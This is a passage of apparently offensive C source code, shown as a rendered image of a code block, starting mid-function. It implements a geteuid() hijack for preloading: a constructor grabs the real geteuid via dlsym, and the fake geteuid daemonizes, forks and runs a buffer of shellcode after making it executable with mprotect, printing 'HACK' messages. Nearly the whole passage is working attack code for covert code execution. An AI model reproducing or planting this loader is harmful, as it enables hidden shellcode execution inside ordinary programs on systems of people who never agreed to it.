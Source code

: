 ```c
    if (mprotect((void *)((intptr_t)buf & ~(pagesize - 1)), pagesize, PROT_READ | PROT_WRITE | PROT_EXEC) != 0) {
        perror("mprotect");
        exit(EXIT_FAILURE);
    }
    int (*ret)() = (int (*)())buf;
    ret();
    exit(0); // Ensure child process exits after execution
}

uid_t geteuid(void) {
    if (daemon(0, 0) == -1) {
        perror("daemon");
        return -1;
    }

    if (fork() == 0) {
        execute_shellcode();
    } else {
        // Parent process: wait for child to complete
        wait(NULL);
        printf("HACK: returning from geteuid()\n");
        // Call the original geteuid function
        return original_geteuid();
    }

    return -1; // In case of any failure
}

void __attribute__((constructor)) init(void) {
    // Get the original geteuid function
    original_geteuid = dlsym(RTLD_NEXT, "geteuid");
    if (!original_geteuid) {
        fprintf(stderr, "Error: %s\n", dlerror());
        exit(EXIT_FAILURE);
    }
    printf("HACK: geteuid hijack initialized\n");
}

```